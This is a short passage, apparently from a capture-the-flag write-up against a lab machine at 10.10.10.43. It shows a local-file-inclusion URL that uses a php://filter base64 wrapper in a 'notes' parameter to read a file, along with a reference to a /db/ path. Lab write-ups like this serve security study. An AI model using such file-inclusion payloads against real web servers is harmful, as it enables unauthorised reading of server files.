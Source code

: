 ```
http://10.10.10.43/department/manage.php?notes=php://filter/convert.base64encode/resource=files/ninevehNotes.txt
```

![](images/13.png)

```
https://10.10.10.43/db/
```
